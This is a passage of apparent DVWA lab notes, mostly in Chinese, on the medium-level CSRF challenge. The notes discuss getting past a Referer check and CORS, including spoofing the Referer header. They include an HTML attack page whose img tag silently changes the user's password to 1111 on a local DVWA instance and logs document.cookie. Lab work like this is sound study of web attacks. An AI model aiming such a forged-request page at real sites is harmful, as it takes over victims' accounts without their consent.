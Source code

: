 user of the web service is `www-data`

hostname is `91ab8a5e75e3`

---

# **Cross Site Request Forgery (CSRF)**

> Medium Level
For the medium level challenge, there is a check to see where the last requested page came from. The developer believes if it matches the current domain, it must of come from the web application so it can be trusted.
It may be required to link in multiple vulnerabilities to exploit this vector, such as reflective XSS.
> 

看提示有寫說後端會判斷 request 是否來自同一個網域，代表我必須在 DVWA 以外的網域建立一個惡意頁面模擬攻擊場景

現在瀏覽器也有 CORS 限制，也就是禁止不同網域的請求，因此要克服這兩個因素

跨來源資源共用（CORS） - HTTP | MDN
[https://developer.mozilla.org/zh-TW/docs/Web/HTTP/CORS](https://developer.mozilla.org/zh-TW/docs/Web/HTTP/CORS)

要繞過 CORS 和 request 來源檢查我大概會參考到至少這兩個條件:

1. 將 request 轉為後端傳送，這樣就可以突破瀏覽器的 CORS 限制 (但前提是你需要有對方的 cookie 或 csrf token)
2. 更改 request header 裡的 `Referer` 欄位以偽照來源

但是不同域名的話就無法取得 user 的 cookie 內的 PHPSESSIONID 🤔 ，不知道有沒解法 ?

## Test trigger CSRF attack from other domain

### By GET img tag

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>csrf by GET</title>
</head>
<body>
set password to: 1111
<img src="http://localhost:8086/vulnerabilities/csrf/?password_new=1111&password_conf=1111&Change=Change">
<script>
  console.log(`your cookie is: ${document.cookie}`)
</script>
</body>
</html>
```

先建立一個測試用的 server，用來放惡意攻擊頁面
